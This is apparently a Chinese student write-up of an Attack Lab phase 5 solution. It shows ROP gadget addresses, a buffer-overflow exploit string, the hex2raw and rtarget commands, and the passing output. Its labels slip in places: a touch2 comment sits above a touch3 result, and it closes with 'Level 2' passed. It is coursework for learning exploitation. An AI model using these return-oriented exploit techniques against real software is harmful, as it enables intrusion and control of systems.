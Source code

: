 使用如下地址： 

```
0x00401aad # 48 89 e0 movq %rsp, %rax
0x004019d8 # 04 37 add %0x37, %al
0x004019a2 # 48 89 c7 movq %rax, %rdi
0x004018fa # touch2 的入口地址
35 39 62 39 39 37 66 61 00 # My cookie ASCII
```

构造成的phase5.txt如下：

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
ad 1a 40 00 00 00 00 00 d8 19 40 00 00 00 00 00  
a2 19 40 00 00 00 00 00 fa 18 40 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

使用如下命令测试，同时查看结果：

```
./hex2raw < phase5.txt > phase5_input.txt
./rtarget -qi phase5_input.txt
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AD 1A 40 00 00 00 00 00 D8 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 0000 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

Level 2通过。